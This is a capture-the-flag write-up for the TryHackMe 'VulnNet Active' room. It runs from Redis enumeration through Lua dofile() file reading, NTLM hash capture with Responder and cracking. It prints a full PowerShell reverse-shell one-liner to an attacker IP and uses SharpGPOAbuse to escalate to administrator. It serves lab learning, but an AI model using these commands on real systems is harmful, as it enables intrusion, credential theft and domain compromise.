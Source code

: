 # 9 - VulnNet Active

Room link --> [https://tryhackme.com/room/vulnnetactive](https://tryhackme.com/room/vulnnetactive)

Nmap Scan returns: `sudo nmap -sSVC -p- -v -Pn -T4 10.10.102.28`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49822/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

### Redis (port 6379)

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# automatic enumeration.
nmap --script redis-info -sV -p 6379 <IP> -Pn
msf> use auxiliary/scanner/redis/redis_server

# mannual enumeration.
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools.
10.10.66.252:6379> INFO # gives some info about the server-client.
10.10.66.252:6379> CONFIG GET * # we got a username here: [104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"]

```
{% endcode %}

So the current user name is `enterprise-security`.

### Exploitation <a href="#exploitation-of-redis" id="exploitation-of-redis"></a>

Going through the HackTricks list, we find an [article](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) that shows how to exploit earlier versions of Redis (our version 2.8.2402 is amongst them):

{% hint style="warning" %}
“Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the dofile() command (WHY???). It can be used to enumerate files and directories. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, the error messages will leak some content of the target file”
{% endhint %}

#### Reading files <a href="#reading-files" id="reading-files"></a>

As explained in the linked article, the command we use is the following:

{% code overflow="wrap" lineNumbers="true" %}
```bash
redis-cli -h 10.10.245.19 eval "dofile('<PATH TO FILE>')" 0
```
{% endcode %}

We try to read some of the [common windows files](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt) that are usually used for Local File Inclusion.

Let's read the "user.txt" file as asked in the question:

{% code overflow="wrap" lineNumbers="true" %}
```bash
10.10.66.252:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
```
{% endcode %}

#### SMB credentials capturing[#](https://blog.raw.pm/en/TryHackMe-VulnNet-Active-write-up/#SMB-credentials-capturing) <a href="#smb-credentials-capturing" id="smb-credentials-capturing"></a>

LUA `dofile()` allows us to request a file but since we are on Windows it allows us to request a share as well for example: `dofile('//host/share')`.

So if we launch a SMB server with Responder on one hand and force the server to request a fake share on the other hand, we should be able to capture a NTLM hash.

#### Step 1

we first set up a listener using `Impacket's Responder.py`.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# listener.
sudo responder -i tun0

# request for a fake share.
redis-cli -h EVAL "dofile('//10.18.88.214/noraj')" 0
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

We captured the NTLMv2 hash for "enterprise-security" user account, we can crack it:

Using haiti to detect the hash type:&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>2</p></figcaption></figure>

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` - crackin with hashcat.

`john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt` - cracking with john.

{% hint style="info" %}
sand\_0873959498 <--> enterprise-security
{% endhint %}

We have valid credentials now to enumerate SMB.

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient -L \\\\10.10.117.3\\ -U 'enterprise-security'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p>3</p></figcaption></figure>

Connecting to the "Enterprise-Share"

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient \\\\10.10.117.3\\Enterprise-Share -U enterprise-security
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption><p>4</p></figcaption></figure>

We viewed the .ps1 script file, and see its a scheduled script.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dkingws)-[~]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```
{% endcode %}

We could replace this with a Powershell Oneliner to get a reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.18.88.214',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we got a shell.

#### Priv Esc

We have "SeImpersonatePrivilege", so we could use Potatoe attack or use BloodHound to find another path.

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption><p>6</p></figcaption></figure>

I used Metasploit and got "Nt Authority".

#### 2nd Method for Priv Esc:

After gaining initial access using the Powershell script, we can use "SharpHound.exe" to gather Domain info, then feed the data to BloodHound to give us shortest path to Admin or Domain Admin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
.\SharpHound.exe -c All
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption><p>7</p></figcaption></figure>

&#x20;We can use BloodHound to analyse the found data: Immediately, BloodHound gives us the shortest path from our current user `enterprise-security` to the `Administrator`. Apparently, we do have `GenericWrite` Permissions to one of the `GPO`s - namely `security-pol-vn`.

Copy the .zip file to the Share folder, then download to kali for use in BloodHound.

`powershell cp .\20230907143943_BloodHound.zip C:\Enterprise-Share\20230907143943_BloodHound.zip` .

We can use the [SharpGPOAbuse.exe](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master) binary to exploit the "GenericWrite" permission on that GPO object.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption><p>8</p></figcaption></figure>

We can do a `gpupdate /force` - to force update the settings, then when we do a `net users enterprise-security` - we should be added to the Administrator groups now.

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption><p>9</p></figcaption></figure>

Note we are not able to go into the Administrator folder from the shell, but we can access the Administrator folder via the SMB share.

`smbclient \\10.10.92.208\C$ -U enterprise-security` .

DONE !
